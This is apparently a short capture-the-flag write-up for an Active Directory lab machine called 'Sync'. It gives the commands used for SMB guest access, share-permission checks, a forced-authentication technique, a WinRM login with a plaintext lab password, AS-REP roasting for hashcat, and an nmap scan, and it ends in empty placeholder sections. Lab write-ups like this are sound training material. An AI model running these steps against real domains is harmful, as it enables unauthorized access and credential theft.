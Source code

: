 ```yaml
---
tags: [AD, Challenge]
title: Sync
created: '2020-07-07T17:53:55.480Z'
modified: '2020-10-02T17:42:03.060Z'
---
```


# Sync
- IP: `172.31.3.6`
- OS: `Active Directory`
## Enumeration
### Writeup
We have guest login on smb: `smbclient.py SYNC\asdfsf@172.31.3.6`
We mount the Department share but there's nothing there: `mount -t cifs -o username=user,password= //172.31.3.6/Department /mnt/Department/`

However, we have write permissions but can't write? We check permissions with `smbcacls -N '//172.31.3.6/Department' 'Support'`
We can only write in the support directory!
We exploit: `https://ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-url`

We get access: `evil-winrm -i 172.31.3.6 -u sysadmin -p sEsshOUmArU25-159`

`GetNPUsers.py sync.csl/sysadmin:sEsshOUmArU25-159 -dc-ip 172.31.3.6 -request -format hashcat -outputfile hashes.asreproas`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.3.6`
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
